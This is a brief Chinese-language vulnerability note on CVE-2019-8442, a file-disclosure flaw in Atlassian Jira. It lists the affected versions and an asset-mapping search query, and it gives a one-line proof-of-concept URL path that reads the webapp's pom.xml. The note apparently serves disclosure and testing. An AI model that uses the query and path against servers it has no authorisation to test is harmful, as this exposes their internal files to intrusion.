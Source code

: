 # 

# Atlassian Jira com.atlassian.jira 敏感信息泄漏 CVE-2019-8442

## 漏洞描述

Atlassian Jira是澳大利亚Atlassian公司的一套缺陷跟踪管理系统。该系统主要用于对工作中各类问题、缺陷进行跟踪管理。 远程攻击者可利用该漏洞访问Jira webroot中的文件。

## 漏洞影响

```
Atlassian Jira < 7.13.4
Atlassian Jira 8.00-8.0.4
Atlassian Jira 8.1.0-8.1.1
```

## 网络测绘

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](./images/202205241425263.png)

验证POC

```
/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```

![](./images/202205241425438.png)

